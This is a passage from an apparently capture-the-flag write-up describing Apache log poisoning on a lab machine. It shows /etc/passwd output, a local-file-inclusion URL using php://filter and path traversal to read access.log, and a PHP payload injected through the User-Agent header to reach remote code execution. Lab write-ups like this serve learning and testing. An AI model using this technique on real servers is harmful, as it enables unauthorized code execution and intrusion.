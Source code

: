 ```
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```
No users

## Apache Logs

In another machine I used the nginx logs to create a payload in php. Maybe i can do the same here.


Get the acces log files

```
http://10.10.155.99/?ext=&view=php://filter/convert.base64-encode/resource=./dog/../../../../../var/log/apache2/access.log
```

Good News. It is logging the User Agent.

<img src="images/logs.png">

We then send a request with our user agent as a PHP Payload and it will be executed by the backend.
This can potentialy give us RCE.

I was being dumb, I don't actually need the base64-encode

We got RCE Baby
